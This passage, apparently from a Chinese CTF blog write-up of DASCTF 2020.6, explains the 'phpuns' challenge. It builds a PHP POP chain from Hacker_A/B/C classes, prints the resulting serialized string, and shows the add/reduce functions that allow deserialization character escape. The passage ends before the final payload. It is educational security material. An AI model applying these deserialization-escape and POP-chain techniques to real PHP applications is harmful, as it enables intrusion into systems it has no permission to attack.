 用上一道题的payload直接秒了……啊……这……

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171646.png)

可能本来上一道题的不需要绕waf，但是后来暗改了之后改成一道题了。。。

后来和学长交流，说是可以用沙箱逃逸来做，可能沙箱逃逸才是想考的。

 

 

 

### phpuns

考点：反序列化字符逃逸，pop链，16进制绕过关键字

直接给了源码的附件：[DASCTF_2020.6_反序列化_source](https://github.com/Anthem-whisper/CTFWEB_sourcecode/raw/main/DASCTF2020.6/DASCTF_2020.6_%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.zip)

先构造pop链；

#### POP链利用

很明显class.php里面的类是给我们利用的，构造很简单：

```
$pop = new Hacker_A;
$pop->c2e38 = new Hacker_B;
$pop->c2e38->c2e38 = new Hacker_C;
```

生成了：

```
O:8:"Hacker_A":1:{s:5:"c2e38";O:8:"Hacker_B":1:{s:5:"c2e38";O:8:"Hacker_C":1:{s:4:"name";s:4:"test";}}}
#一共103个字符
```

 

#### 反序列化字符逃逸

我们可以看到index.php第29行调用了add函数：

```
$_SESSION['info'] = add(serialize($user));
```

然后info.php第6行调用了reduce函数：

```
$tmp = unserialize(reduce($_SESSION['info']));
```

我们去看functions.php里面这两个函数的定义：

```
function add($data)
{
    $data = str_replace(chr(0).'*'.chr(0), '\0*\0', $data);
    return $data;
}
 
function reduce($data)
{
    $data = str_replace('\0*\0', chr(0).'*'.chr(0), $data);
    return $data;
}
```
